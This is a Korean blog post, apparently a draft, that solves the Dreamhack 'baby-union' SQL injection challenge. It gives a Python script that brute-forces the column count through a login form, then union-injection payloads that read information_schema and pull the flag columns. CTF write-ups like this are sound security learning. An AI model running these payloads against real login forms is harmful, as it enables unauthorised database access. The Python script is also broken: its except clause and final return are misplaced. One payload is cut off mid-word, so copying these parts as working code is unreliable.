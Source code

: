 ```yaml
---
layout: post
published : false  # 글 비공개 설정
title: "[드림핵][Lv.1] baby-union 문제 풀이"
date:   2025-07-16 21:00:00 +0900
categories: [Security]
tags: [wargame, web, union-sqli]
---
```



## 1. 개요 (Overview)

- **플랫폼 (Platform)**: 드림핵
- **문제 이름 (Challenge)**: baby-union
- **분야 (Category)**: 웹해킹
- **문제 링크 (URL)**: [드림핵  워게임](https://dreamhack.io/wargame/challenges/984)



## 2. 문제 분석 (Problem Analysis)
**문제 설명**
- 로그인 시 계정의 정보가 출력되는 웹 서비스이다.
- SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.

```sql
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null

);
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

### 2-1. 컬럼 수 찾는 파이썬 코드

```python
import requests
import warnings


# SSL 경고 무시 (테스트 환경에서만 사용)
warnings.filterwarnings('ignore', message='Unverified HTTPS request')
def find_sql_column_count(target_url):

	"""
	POST 기반 SQL Injection에서 ORDER BY를 사용해 컬럼 수를 찾습니다.
	uid와 upw 파라미터를 모두 전송 한다.
	"""

	print("[-] 컬럼 수 확인을 시작합니다...")

	# 확인할 최대 컬럼 수
	max_columns = 25

	for i in range(1, max_columns + 1):
		# uid에 주입할 페이로드
		payload = f"' OR 1=1 ORDER BY {i}#"

		# POST 요청으로 보낼 데이터. upw에 임의의 값을 넣어줘야 합니다.
		post_data = {
			'uid': payload,
			'upw': 'dummy_password'

		}

		try:
			# POST 요청 전송. verify=False는 HTTPS 인증서 검증을 건너뜁니다.
			response = requests.post(target_url, data=post_data, timeout=5, verify=False)

  

			# HTTP 500 에러가 발생하면 컬럼 수가 초과된 것입니다.
			# 웹 애플리케이션의 반응에 따라 이 조건은 달라질 수 있습니다.

			if response.status_code == 500:
				column_count = i - 1
				print(f"\n[+] 컬럼 수를 찾았습니다: {column_count}개")
				return column_count

			else:

				print(f"[*] {i}개 컬럼 확인... (상태 코드: {response.status_code}, 정상 응답)")

			except requests.exceptions.RequestException as e:

				print(f"[!] 요청 중 오류 발생: {e}")
				return None

		print(f"[-] {max_columns}개까지 시도했지만 컬럼 수를 찾지 못했습니다.")
		return None

if __name__ == '__main__':
	# 실제 공격 대상 URL로 변경해야 합니다.
	URL = "http://host3.dreamhack.games:19347/" # 대상 주소로 변경하세요.

	# 함수 실행
	find_sql_column_count(URL)    

```

### 2-2. 문제 해설
- 이 문제는 파이썬 코드보다 sql 쿼리를 보는게 핵심이다.
- 이 문제에서 요구하는건 공격자가 컬럼 수를 찾아서, union 인젝션을 사용하여 테이블명과 컬럼명 찾고, flag 값을 얻어 낼 수 있느냐 라는 문제이다.
- 그래서 이 문제는 크게 3가지 단계로 문제를 접근해야 하다.


#### (1) 테이블의 컬럼 수는 몇개 있고, 어떤 컬럼을 출력하는지 알아야 한다.
- 처음에 컬럼 수를 확인하기 위해서 나 처럼 파이썬 코드를 작성하기도 할 수 있지만 일단 간단한 테스트는 아래와 같은 페이로드이다.

**[페이로드]**
~~~sql
' union select 1#
' union select 1,2#
' union select 1,2,3#
' union select 1,2,3,4#
~~~

---

- 이렇게 작성 할 때 주의해야하는거 upw 입력 폼에서도 아무 값을 넣어줘야 한다는 것이다.
- 그리고 위 페이로드 처럼 하나씩 증가하면서 컬럼 수의 수를 찾으면 된다.
- 이렇게 컬럼의 수를 찾으면 어떤 컬럼 위치에서 출력이 되는지 파악하면 된다.
- 위 문제에서는 2, 4번 컬럼에 출력이 되는 것이 확인 되었다.


#### (2) 테이블 명을 찾아야 한다.
- 이제 컬럼의 수를 알았으니 flag가 있는 테이블명을 찾아야 한다.
- 위 문제에서는 테이블명을 제대로 알려주지 않았기 때문에 테이블명을 찾아야 하는데, mysql 서버 내에는 DB의 메타 정보를 모아둔 DB가 있다.
- 우리는 이걸 이용해서 테이블명을 찾아야 한다.
- mysqli 메타정보 확인하는 건 매우 중요하기 때문에 알아둬야 하겠지만, 추후 나중에 SQL 인젝션 관련 정리를 하면 이 내용을 설명하겠다.
- 지금은 일단 테이블 명을 찾는 페이로드를 작성해보면

**[테이블명을 찾는 페이로드]**
~~~sql
' union select 1,group_concat(table_name),3, 4 from information_schema.tables where table_schema=database()#
~~~

- 위의 명령을 치면 두번째 컬럼에 현재 데이터베이스의 테이블명을 모두 출력해주는데 출력 되는 테이블은 users, onlyflag 이다.
- users 테이블명은 이미 init.sql 를 통해 확인 되었고, 우리가 찾는 flag는 onlyflag 테이블이 있는 것으로 예상 된다.


#### (3) 테이블명을 이용하여 컬럼을 찾아야 한다.
- 우리는 2-2에서 테이블을 확인 했다.
- 이제 찾은 테이블명을 통해 컬럼을 찾아보자
- 컬럼명을 찾는 것 역시 mysql 메타데이터의 DB 정보를 통해서 찾을 수 있다.

**[컬럼명을 찾는 페이로드]**
~~~sql
up_concat(column_name),3, 4 from information_schema.columns where table_name='onlyflag'#
~~~

- 위의 페이로드를 통해서 olnyflag 테이블 안에 idx,sname,svalue,sflag,sclose 라는 컬럼이 있다는 것을 확인 할 수 있었다.


- 이제 init.sql 파일을 열어서 다시 확인 해보면 

**[init.sql 부분]**
~~~sql
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
~~~

- flag 값은 fake_col2, 3,4 컬럼을 합치면 된다는 것을 알았다. 



#### (4) 컬럼을 활용해 flag 확인
- 테이블명과 컬럼명을 확인 했으니 이제 값을 찾는건 단순하다.

**[flag 값 확인]**
~~~sql
' union select 1, (SELECT svalue FROM onlyflag), 3, 4#
' union select 1, (SELECT sflag FROM onlyflag), 3, 4#
' union select 1, (SELECT sclose FROM onlyflag), 3, 4#
~~~

- 이렇게 두 번째 컬럼 이용해서 하나씩 추출 해도 되고, 2, 4번 컬럼을 통해서 한번에 두개의 값을 추출해도 된다.
- 이렇게 추출한 값을 하나로 뭉치면 하나의 flag 값이 된다.

---


